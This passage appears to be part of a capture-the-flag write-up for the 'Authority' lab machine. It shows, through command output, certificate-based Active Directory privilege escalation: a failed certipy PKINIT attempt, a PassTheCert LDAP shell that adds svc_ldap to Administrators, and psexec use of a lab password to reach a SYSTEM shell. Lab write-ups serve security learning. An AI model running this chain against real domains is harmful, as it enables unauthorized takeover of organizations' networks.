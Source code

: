 ```bash
certipy  auth -pfx administrator_authority.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This happens “when a domain controller doesn’t have a certificate installed for smart cards”. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.

Alternatively, we can use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) attack.

To perform the PassTheCert attack. We will need key and cert in seprate files. We will use certipy to get these files.

```bash
$python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222

#help
add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
add_user new_user [parent] - Creates a new user.
add_user_to_group user group - Adds a user to a group.


# add_user_to_group svc_ldap administrators
Adding user: svc_ldap to group Administrators result: OK

```

svc-ldap has been added to the administrator group. We can use psexec to confim that we can login as administrator.
```bash
impacket-psexec authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.222.....
[*] Found writable share ADMIN$
[*] Uploading file YZVCWrHm.exe
[*] Opening SVCManager on 10.10.11.222.....
[*] Creating service NYke on 10.10.11.222.....
[*] Starting service NYke.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```